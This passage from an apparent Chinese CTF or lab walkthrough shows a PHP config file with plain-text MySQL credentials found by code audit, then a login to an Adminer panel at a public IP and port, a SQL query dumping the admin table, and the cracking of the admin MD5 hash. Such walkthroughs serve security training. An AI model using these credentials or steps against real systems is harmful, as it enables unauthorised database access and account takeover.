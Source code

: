 
![](https://nc0.cdn.zkaq.cn/md/8461/83f894de0b28a97519dd5e831521f956_92230.png)


```
<?php
error_reporting(E_ALL ^ E_NOTICE);
header("content-type:text/html;charset=utf-8");
session_start();
$conn = mysqli_connect("192.168.0.10","xxe", "teiwo!8#7ERe1DPC", "scms");
mysqli_query($conn,'set names utf8');
date_default_timezone_set("PRC");
```

结果中得出关键的数据链接信息

```
$conn = mysqli_connect("192.168.0.10","xxe", "teiwo!8#7ERe1DPC", "scms");
```

### 4. 登陆数据库

根据代码审计结果， cms 使用了 adminer 数据库管理工具。地址为 `http://xxxx/adminer.php`

#### 4.1 登陆

打开 `http://59.63.200.79:8207/adminer.php` 并登陆

#### 4.2 获取 admin 密码


```sql
-- 注意， 由于开启了大小写敏感， 这里不能写 sl_admin
select * from SL_admin;

-- admin  e99d2e51cbefe75251f1d40821e07a32
--        admintestv1
```

![](https://nc0.cdn.zkaq.cn/md/8461/2c11b26ed53f83e1ee1e0b9f65004a58_85419.png)


密码是通过 md5 加密的

```
342cc7208aea6f057f72075016fde59f_87770
```


### 5. md5 解码

![](https://nc0.cdn.zkaq.cn/md/8461/342cc7208aea6f057f72075016fde59f_87770.png)

揭秘结果

```
admintestv1
```
